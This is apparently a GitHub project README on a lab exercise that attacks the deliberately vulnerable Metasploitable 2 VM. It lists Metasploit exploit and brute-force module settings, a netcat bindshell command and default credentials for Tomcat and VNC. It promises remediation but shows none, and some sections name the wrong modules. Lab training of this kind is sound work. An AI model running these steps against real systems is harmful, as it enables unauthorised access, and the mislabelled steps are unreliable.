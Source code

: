 # Identify-and-Remediate-Vulnerabilities-on-Metasploitable-2

## Objective
The aim of this project was to perform a thorough vulnerability assessment on Metasploitable 2.0, mirroring actual penetration testing conditions. The goal was to discover, take advantage of, and record important weaknesses in the virtual machine in order to improve hands-on experience with different attack methods and approaches. This project also emphasized implementing remediation methods to address identified vulnerabilities and enhance system security, following industry standards for system fortification and secure setups.

## Skilled Learned
- Acquired the skill to recognize and assess system weaknesses, comprehending their origins and possible consequences.
- Improved abilities in taking advantage of system weaknesses and mastering exploit methods for typical vulnerabilities, such as insecure services and outdated software.
- Performed data theft, increased privileges, and maintained access to mimic hacker actions post initial system breach.
- Acquired skills in implementing security updates, disabling unnecessary services, and setting up firewalls to address identified vulnerabilities.
- Recorded the discovered weaknesses, steps to exploit them, and implemented protective measures in an organized report layout.

## Tools Used
- Nmap: Carried out network exploration and port scanning in order to uncover available services and possible access points.
- Metasploit Framework: Utilizing pre-built modules and custom scripts to exploit identified vulnerabilities for more thorough penetration testing.
- Netcat: Access into bindshell bakdoor using netcat (nc) command.

## Steps to Reproduce

### FTP Backdoor (vsftpd)
Exploitation Details:
Module Used: exploit/unix/ftp/vsftpd_234_backdoor
Steps:
- Set target IP (RHOSTS) and port.
- Run exploit to access a backdoor shell.

![image](https://github.com/user-attachments/assets/ac76dde2-c328-4f6f-a043-42296e768b17)
FTP Backdoor

### Unsecured Telnet Service 
Module Used: auxiliary/scanner/telnet/telnet_login
Steps:
- set RHOST (VM IP address)
- set USER_FILE "Username file location"
- set PASS_FILE "Password file location"

setting up the requirements:
![image](https://github.com/user-attachments/assets/26a76b2b-7bcb-4116-83c2-eaa10ca3956f)

Bruteforcing and creating sessions:
![image](https://github.com/user-attachments/assets/549bca94-edf2-4893-8ea9-e20ef0b418e5)
![image](https://github.com/user-attachments/assets/b0900f3c-b018-44e5-b1af-40221dc4cb2b)

Here we can see, two sessions has successfully created....!!!

### Outdated SSH version
The process is same like the previous one.
Module Used: auxiliary/scanner/ssh/ssh_login
Steps:
- set RHOST (VM IP address)
- set USER_FILE "Username file location"
- set PASS_FILE "Password file location"

![image](https://github.com/user-attachments/assets/3cffafe0-c023-4e80-beb9-38086223897b)
Outdated SSH Version

### Samba Unauthenticated Access
Module Used: auxiliary/scanner/ssh/ssh_login
Steps:
- set RHOST (VM IP address)
- Execute the exploit to open a remote shell via Samba misconfiguration.

![image](https://github.com/user-attachments/assets/be1303d3-5c8b-48e3-ab5c-f0a671ea4b01)
Samba Unauthenticated Access

### Bindshell Backdoor (Metasploitable root shell)
- nc 192.168.0.103 1524

![image](https://github.com/user-attachments/assets/11345c83-8e97-48a5-8ded-d23e1d0bbef6)
Bindshell Backdoor

### IRC Backdoor (UnrealIRCd)
- Module Used: exploit/unix/irc/unreal_ircd_3281_backdoor
- Steps:
1.	Set RHOST (Target IP address)
2.	Set LHOST (Attacking IP address)
3.	Set PAYLOAD cmd/unix/bind_netcat or cmd/unix/reverse
4.	Execute the exploit to obtain a remote shell.

![image](https://github.com/user-attachments/assets/72ea2b91-de85-428b-b936-7a20cf483f15)
Unreal IRC Backdoor

### Apache (CGI Argument Injection)
- Module Used: exploit/multi/http/php_cgi_arg_injection
- Steps:
1.	Set  RHOST 
2.	Execute payload to gain shell access.

![image](https://github.com/user-attachments/assets/753ca40a-1930-4d41-8f77-4d8e68ed89f7)
Apache (CGI Argument Injection)

### Remote Code Execution on Java RMI
- Module Used: exploit/multi/http/php_cgi_arg_injection
- Steps:
1.	Set  RHOST 
2.	Execute payload to gain shell access.

![image](https://github.com/user-attachments/assets/d182e0cc-70bb-4668-add4-2d8185301b10)
Remote code Execution on Java RMI

### Unencrypted VNC Connection
- Module Used: auxiliary/scanner/vnc/vnc_login
- Steps:
1.	Set RHOST 
2.	Execute the exploit to obtain a remote shell.
3.	Go to terminal “vncviewer 192.168.0.103” run this command.
4.	Provide the password using the module.

![image](https://github.com/user-attachments/assets/7acaa3a4-f8bf-4fb0-b048-c70044de15a6)

vncviewer 192.168.0.103 and password is "password" as you can see from previous screenshot.
![image](https://github.com/user-attachments/assets/43a5357f-8bae-4173-8fdd-87b876b31f8b)

### Tomcat Manager RCE
- Module Used: exploit/multi/http/tomcat_mgr_upload
- Steps:
1.	set HttpUsername tomcat
2.	set HttpPassword tomcat
3.	set RPORT 8081
4.	set RHOST 
5.	Execute the exploit to obtain a remote shell.

![image](https://github.com/user-attachments/assets/a840412c-2101-42e4-8786-7bdead7f8b1e)
Tomcat Manager RCE



